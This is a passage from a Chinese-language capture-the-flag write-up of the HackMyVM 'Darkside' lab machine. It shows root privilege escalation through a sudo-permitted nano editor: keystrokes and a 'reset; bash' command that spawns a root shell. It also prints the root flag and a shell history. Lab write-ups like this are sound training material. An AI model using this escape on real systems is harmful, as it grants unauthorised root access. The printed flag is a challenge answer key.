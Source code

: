 然后就是熟悉的nano提权：https://gtfobins.github.io/gtfobins/nano/

```bash
sudo /usr/bin/nan0
ctrl+r   ctrl+x
reset; bash 1>&0 2>&0
```

![image-20240406141619831](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421500.png)

然后回车，看不清的话`clear`：

```apl
root@darkside:~# cat root.txt 
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
```

```bash
root@darkside:~# history
    1  whoami
    2  clear
    3  whoami;id
    4  cd /root
    5  ls
    6  cat vboxpostinstall.sh 
    7  clear
    8  cat root.txt
```

## 参考

https://wcute.github.io/2019/03/24/hydra%EF%BC%88%E7%88%86%E7%A0%B4%E5%B7%A5%E5%85%B7%EF%BC%89%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/

https://tryhackmyoffsecbox.github.io/Target-Machines-WriteUp/docs/HackMyVM/Machines/Darkside/

https://blog.51cto.com/u_15274949/4896287

## 额外收获

墨师傅blog发现了一种解密方法：

![image-20240406135301759](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421501.png)

使用`cyberchef`进行自动识别，太牛逼了，不愧是墨师傅，学习一下！



